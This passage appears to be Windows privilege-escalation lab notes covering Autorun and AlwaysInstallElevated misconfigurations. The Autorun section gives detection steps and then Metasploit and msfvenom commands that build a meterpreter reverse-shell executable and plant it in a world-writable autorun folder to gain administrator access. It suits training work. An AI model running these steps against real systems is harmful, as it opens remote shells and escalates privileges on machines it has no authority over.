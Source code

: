 ```powershell
7. Check ALL
Invoke-AllChecks                    #   runs all current escalation checks and returns a report
```

***

### Autorun

#### Detection

Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
2. In Autoruns, click on the ‘Logon’ tab.
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
5. From the output, notice that the “Everyone” user group has “FILE\_ALL\_ACCESS” permission on the “program.exe” file.

#### Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp
4. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp lhost=\[Kali VM IP Address] -f exe -o program.exe
7. Copy the generated file, program.exe, to the Windows VM.

Windows VM

1. Place program.exe in ‘C:\Program Files\Autorun Program’.
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: sessions -i \[Session ID]
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

***

### AlwaysInstallElevated

#### Detection

Windows VM

1. Open command prompt and type: reg query HKLM\Software\Policies\Microsoft\Windows\Installer
2. From the output, notice that “AlwaysInstallElevated” value is 1
3. In command prompt type: reg query HKCU\Software\Policies\Microsoft\Windows\Installer
4. From the output, notice that “AlwaysInstallElevated” value is 1
